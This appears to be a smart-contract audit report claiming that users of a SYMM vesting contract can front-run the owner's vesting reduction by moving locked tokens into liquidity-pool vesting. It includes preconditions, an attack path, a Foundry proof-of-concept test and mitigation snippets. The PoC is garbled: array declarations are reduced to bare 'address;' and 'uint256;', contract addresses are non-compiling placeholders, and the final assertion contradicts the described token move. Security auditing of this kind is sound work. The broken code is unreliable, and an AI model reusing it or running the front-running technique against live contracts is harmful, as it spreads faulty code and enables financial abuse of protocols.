 Festive Carrot Elephant

High

# Vesting Plan Reduction Bypass via Liquidity Addition

### Summary

The _resetVestingPlans function in vesting.sol allows the contract owner to adjust user vesting amounts.

Liquidity Addition Exploit: Instead of withdrawing, users can call _addLiquidityProcess, transferring their locked tokens to the liquidity pool. This effectively converts their locked tokens into LP tokens, creating a new vesting schedule that is unaffected by the pending reduction.

### Root Cause

in  _resetVestingPlans function 
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/Vesting.sol#L222-L237

No freeze period or timelock prevents users from executing transactions before an adjustment is enforced.

### Internal Pre-conditions

1. [User needs to have] vestingPlans[token][user].lockedAmount to be at least greater than amount (liquidity addition amount).
2. [Contract owner needs to call] _resetVestingPlans(token, users, amounts) to reduce a user’s vestingPlans[token][user].lockedAmount from {initial amount} to {reduced amount} after a delay.
3. [User needs to detect] an upcoming vesting reduction through on-chain monitoring or external notification before _resetVestingPlans is executed.
4. [User needs to call] _addLiquidityProcess(amount, minLpAmount, maxUsdcIn) to transfer lockedAmount into the liquidity pool, converting the original vesting into LP vesting.
5. [Vesting contract needs to allow] _addLiquidityProcess to execute without checking for a pending vesting reduction.
6. [Contract owner needs to execute] _resetVestingPlans(token, users, amounts) after the user has already converted their vesting into LP, making the reset ineffective.

### External Pre-conditions

1. Gas price needs to be low enough to ensure the user’s _addLiquidityProcess transaction is executed before the contract owner’s _resetVestingPlans.
2. On-chain monitoring tools or bots must be available for the user to detect when a vesting reduction is about to occur.
3. No transaction delays or congestion should occur, allowing the liquidity addition transaction to be processed quickly.
4. The liquidity pool must have sufficient capacity to accept the user’s locked tokens for LP conversion.
5. No restrictions on adding liquidity should be in place at the time the user attempts to exploit the issue.

### Attack Path

Scenerio: Liquidity Addition Exploit

1. Alice has 1,000 tokens vested.

2. The contract owner decides to reduce Alice’s vesting to 600 tokens.

3. Alice calls _addLiquidityProcess, transferring her locked tokens into a liquidity pool.

4. This moves her locked tokens into LP tokens, triggering a new vesting schedule.

5. The contract owner calls _resetVestingPlans, but it only applies to the original vesting, leaving Alice’s new LP vesting untouched.

### Impact

Users can escape vesting reductions by transferring locked tokens into a liquidity pool, thereby avoiding the intended adjustment.

Contract owner loses control over vesting allocations, making vesting management ineffective.

Potential financial loss for the protocol if token allocations cannot be adjusted as intended.

Liquidity pool abuse, where users lock tokens in LP pairs to create new vesting schedules, disrupting the vesting mechanism.

### PoC

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";

interface IVestingContract {
    function claimLockedToken(address token) external;
    function _addLiquidityProcess(uint256 amount, uint256 minLpAmount, uint256 maxUsdcIn) external;
    function _resetVestingPlans(address token, address[] calldata users, uint256[] calldata amounts) external;
    function vestingPlans(address token, address user) external view returns (uint256 lockedAmount);
}

contract VestingExploitTest is Test {
    IVestingContract public vestingContract;
    IERC20 public symmToken;
    IERC20 public lpToken;
    address public owner = address(0x1);
    address public alice = address(0x2);

    function setUp() public {
        vm.startPrank(owner);
        
        // Deploy Vesting Contract (Assume it's already deployed, set the instance)
        vestingContract = IVestingContract(0xDeployedVestingContract);
        symmToken = IERC20(0xSymmTokenAddress);
        lpToken = IERC20(0xLpTokenAddress);

        // Fund Alice with some SYMM tokens
        symmToken.transfer(alice, 1000 * 10**18);
        
        vm.stopPrank();
    }

    function testBypassVestingReduction() public {
        vm.startPrank(alice);

        // Check initial locked amount
        uint256 initialLocked = vestingContract.vestingPlans(address(symmToken), alice);
        console.log("Initial Locked SYMM:", initialLocked);  // Should be 1000

        // Step 1: Alice gets notified of reduction (simulating front-run)
        uint256 reducedAmount = 600 * 10**18;

        // Step 2: Alice quickly moves tokens to liquidity before the reset
        vestingContract._addLiquidityProcess(1000 * 10**18, 1, 100);

        // Step 3: Contract owner attempts to reset Alice's vesting to 600
        address;
        users[0] = alice;
        uint256;
        amounts[0] = reducedAmount;

        vm.startPrank(owner);
        vestingContract._resetVestingPlans(address(symmToken), users, amounts);
        vm.stopPrank();

        // Step 4: Verify that Alice’s LP vesting is untouched
        uint256 finalLocked = vestingContract.vestingPlans(address(symmToken), alice);
        console.log("Final Locked SYMM:", finalLocked);  // Should still be 1000 in LP vesting

        assert(finalLocked == 1000 * 10**18);  // Exploit worked
    }
}


### Mitigation

1. Implement a Freeze Mechanism

Before reducing vesting, temporarily freeze claims and liquidity additions for affected users.

mapping(address => bool) public isFrozen;

function freezeUser(address user) external onlyRole(SETTER_ROLE) {
    isFrozen[user] = true;
}

Modify claimLockedToken and _addLiquidityProcess to block claims and liquidity additions if frozen:

require(!isFrozen[user], "User actions are frozen");

2. Timelock on Claims and Liquidity Additions Before Reset

Enforce a timelock (e.g., 24 hours) before vesting changes take effect.

Users cannot claim or add liquidity during this period.